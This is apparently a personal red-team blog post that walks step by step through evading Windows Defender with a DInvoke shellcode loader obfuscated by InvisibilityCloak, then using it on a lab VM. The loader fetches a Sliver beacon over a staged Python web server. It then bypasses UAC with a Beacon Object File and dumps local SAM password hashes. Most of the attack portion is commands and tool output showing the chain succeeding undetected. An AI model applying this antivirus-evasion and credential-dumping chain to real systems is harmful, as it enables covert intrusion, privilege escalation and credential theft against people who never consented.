

Recently I have been playing around with [Sliver](https://github.com/BishopFox/sliver) from BishopFox as a C2 framework. After trying it out and executing some beacon payloads on a Windows VM, I noticed that the beacons instantly get flagged by Windows Defender. So to improve my Red Teaming skills, I was interested in finding ways to bypass some general anti-virus software like Windows Defender. In this post I will take you through the process of using [DInvoke](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main) as a shellcode injecter and using common obfuscation techniques for bypassing AVs.

# Building our Shellcode Loader
## DInvoke
To start building our shellcode loader, I decided to make use of DInvoke by [TheWover](https://github.com/TheWover). Using DInvoke, we can use Dynamic Invocation to load unmanaged code via DLLs at runtime. This can help us avoiding API Hooking by calling arbitrary code from memory, while also avoiding detections that look for imports of suspicious API calls via the Import Address Table. For more information about the DInvoke project, be sure to read [TheWover's blog post](https://thewover.github.io/Dynamic-Invoke/) where he demonstrates how the project works.

In order to make use of DInvoke as a shellcode loader, I modified an existing C# Visual Studio project of [Kara-4search](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main). I changed the original code to download the shellcode from a web server and then load it into memory.


## Obfuscation with InvisibilityCloak
With these changes applied, we can save the project and perform some obfuscation. The [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) project serves as an obfuscation toolkit that allows for some quick modifications to your project like changing the name, project GUID, string obfuscation, removing comments and removing program database (PDB) strings. Download the project, compile the binary and run the following command in order to rename the project and apply string reversing as the obfuscation method.

```console
C:\Tools\Python\InvisibilityCloak> python.exe InvisibilityCloak.py -d C:\Tools\DInvoke_Loader\DInvoke_shellcodeload -n "Bashee" -m reverse
,                 .     .   .        ,-. .         ,
|         o     o |   o | o |       /    |         |
| ;-. . , . ,-. . |-. . | . |-  . . |    | ,-. ,-: | ,
| | | |/  | `-. | | | | | | |   | | \    | | | | | |<
' ' ' '   ' `-' ' `-' ' ' ' `-' `-|  `-' ' `-' `-` ' `
                                        `-'
====================================================
[*] INFO: String obfuscation method: reverse
[*] INFO: Directory of C# project: C:\Tools\DInvoke_Loader\DInvoke_shellcodeload
[*] INFO: New tool name: Bashee
====================================================

[*] INFO: Generating new GUID for C# project
[*] INFO: New project GUID is 1465ec05-f1b9-48e2-af4a-442f974e22a1
[*] INFO: Changing C# project GUID in below files:
C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_shellcodeload.sln
C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\DInvoke_shellcodeload.csproj
C:\Tools\DInvoke_Loader\DInvoke_shellcodeloadDInvoke_test\Properties\AssemblyInfo.cs_copy


[*] INFO: Removing PDB string in C# project file

[*] INFO: Renaming DInvoke_shellcodeload.sln to Bashee.sln
[*] INFO: Renaming DInvoke_shellcodeload.csproj to Bashee.csproj
[*] INFO: Renaming directory DInvoke_shellcodeload to Bashee

[+] SUCCESS: New GUID of 1465ec05-f1b9-48e2-af4a-442f974e22a1 was generated and replaced in your project
[+] SUCCESS: New tool name of Bashee was replaced in project

[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvokeFunctions.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\DELEGATES.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\DInvokeFunctions.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\Program.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\obj\x64\Debug\.NETFramework,Version=v4.7.2.AssemblyAttributes.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\obj\x64\Release\.NETFramework,Version=v4.7.2.AssemblyAttributes.cs
[*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\obj\x86\Debug\.NETFramework,Version=v4.7.2.AssemblyAttributes.cs

[+] SUCCESS: Your new tool Bashee now has the invisibility cloak applied.
```

From the output we see that we have succesfully obfuscated the project. Before compiling, let's change all string references to DInvoke to another custom string (e.g. "Bashee"). We will also change the project output type to be a Windows Application in order to avoid a console pop-up when executing the binary.


We can now compile the project to x64 architecture in release mode. 

## AV Check
With our loader ready, we can check if the file is not flagged as malicious by running [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) or [DefenderCheck](https://github.com/matterpreter/DefenderCheck).

```console
C:\Tools> DefenderCheck.exe BasheeLoader.exe
Target file size: 8192 bytes
Analyzing...

Exhausted the search. The binary looks good to go!

C:\Tools\ThreatCheck\bin\Release> ThreatCheck.exe -f C:\Tools\BasheeLoader.exe
[+] No threat found!
```

No threats have been found! This means that we have now made a program that can fetch our shellcode and execute it in memory without triggering Defender.

# Sliver in Action
## Shellcode Generation
Moving to our attack machine, we create shellcode for a Sliver C2 beacon. Start Sliver, generate a mTLS beacon targeting your IP and save it to a directory of your choosing. Next we start the mTLS listener.



In order to better evade detection, we now convert the executable to a `.bin` file with [Donut](https://github.com/TheWover/donut). Donut is a tool focused on creating binary shellcodes that can be executed in memory. It will generate a shellcode of a .NET binary, which can be executed via the execute-shellcode argument in Sliver. I'll use Donut with the `-b 1` flag to not add AMSI bypass and the `-e 3` flag for encryption.

```console
$ ./donut -b 1 -e 3 -o rev.bin -i /tmp/ESSENTIAL_THEATER.exe 

  [ Donut shellcode generator v1 (built Dec 26 2024 11:15:37)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/tmp/ESSENTIAL_THEATER.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : none
  [ PE Headers    : overwrite
  [ Shellcode     : "rev.bin"
  [ Exit          : Thread
```

Lets copy all files to the `/tmp` directory and run our Python HTTP server.

```console
$ cp rev.bin /tmp/rev.bin
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

## Payload Execution
Now with everything set lets try to get a beacon from our victim machine (`172.16.0.5`).


After executing our custom shellcode loader, we can see it has grabbed our beacon from our Python server, loaded our shellcode in memory and we received a connection from our server without alerting Windows Defender. We can now even go a step further and escalate privileges on the victim.

## Privilege Escalation
Use the beacon and run `sa-whoami`. This will run a `whoami /all` in a more safe way.

```console
[server] sliver (ESSENTIAL_THEATER) > sa-whoami 

[*] Tasked beacon ESSENTIAL_THEATER (f91cc40c)

[+] ESSENTIAL_THEATER completed task f91cc40c

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName        SID
====================== ====================================
DESKTOP-3GMRMMT\John    S-1-5-21-2723216276-469661999-718104327-1001


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
DESKTOP-3GMRMMT\None                              Group                    S-1-5-21-2723216276-469661999-718104327-513   Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114                                     
DESKTOP-3GMRMMT\docker-users                      Alias                    S-1-5-21-2723216276-469661999-718104327-1002  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeShutdownPrivilege           Shut down the system                              Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeUndockPrivilege             Remove computer from docking station              Disabled                      
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled                      
SeTimeZonePrivilege           Change the time zone                              Disabled
```

We see our user is part of the `Administrators` group but we are not in a high integrity process. This means that we have to bypass UAC (User Access Control) to get a shell with full Administrator privileges. There is an excellent project called [UAC-BOF-Bonanza](https://github.com/icyguider/UAC-BOF-Bonanza) that includes Beacon Object Files that can be loaded to Sliver in order to bypass UAC. After cloning the repository, we can load them into Sliver as follows (e.g. `CmstpElevatedCOM`):

```console
$ git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
$ cp UAC-BOF-Bonanza/CmstpElevatedCOM/ /home/s3rp3nt/.sliver-client/extensions/
```

The above UAC Bypass creates an elevated `ICMLuaUtil COM` object and calls its ShellExec function to execute the provided file on disk. If it is the first time using these custom extension, restart yuor Sliver server. We can now run the `CmstpElevatedCom` task from within our beacon that executes our loader.


This will launch another beacon process running as Administrator. With these privileges we can try to dump all credentials from LSASS. To stay stealthy, let's use [SharpSAMDump](https://github.com/jojonas/SharpSAMDump).

```console
[server] sliver (ESSENTIAL_THEATER) > execute-assembly -i /home/s3rp3nt/Tools/Windows/SharpSAMDump.exe

[*] Tasked beacon ESSENTIAL_THEATER (c4af87ff)

[+] ESSENTIAL_THEATER completed task c4af87ff

[*] Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
John:1001:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

We managed to obtain the hashes of all accounts on the machine, including the administrator hash.